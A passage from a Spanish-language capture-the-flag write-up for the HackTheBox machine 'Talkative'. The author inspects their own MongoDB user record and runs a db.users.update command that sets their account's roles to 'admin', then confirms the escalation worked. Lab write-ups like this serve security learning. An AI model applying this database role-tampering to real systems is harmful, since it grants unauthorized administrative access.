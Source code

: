 Y ahora podemos comprobar en la base de datos que se ha creado mi cuenta correctamente.

```
emails: [ { address: "pointed@talkative.htb", verified: false } ],
    type: "user",
    status: "online",
    active: true,
    _updatedAt: ISODate("2024-08-06T18:38:40.311Z"),
    roles: [ "user" ],
    name: "pointed",
    lastLogin: ISODate("2024-08-06T18:38:36.002Z"),
    statusConnection: "online",
    utcOffset: 2,
    username: "pointed"
```

Y ahora solo habría que cambiar el cambio `roles` y añadir `admin` que es lo que tiene el usuario `saul`. Quiero pensar que así me convertiré en administrador de este servicio.

```js
db.users.update({"_id": "7i6rDHBTt3DLyLLjF"}, { $set: { "roles" : ["admin"]}})
```

![Write-up Image](images/Screenshot_22.png)
Asignamos el rol de `admin` a mi ID de usuario.
Ahora podemos comprobar que esto a funcionado, aunque vemos el campo `modifiedCount: 1` nunca está de mas comprobarlo.

```
...
emails: [ { address: 'pointed@talkative.htb', verified: false } ],
    type: 'user',
    status: 'online',
    active: true,
    _updatedAt: ISODate('2024-08-06T18:38:40.311Z'),
    roles: [ 'admin' ],
    name: 'pointed',
    lastLogin: ISODate('2024-08-06T18:38:36.002Z'),
    statusConnection: 'online',
    utcOffset: 2,
    username: 'pointed'
...
```
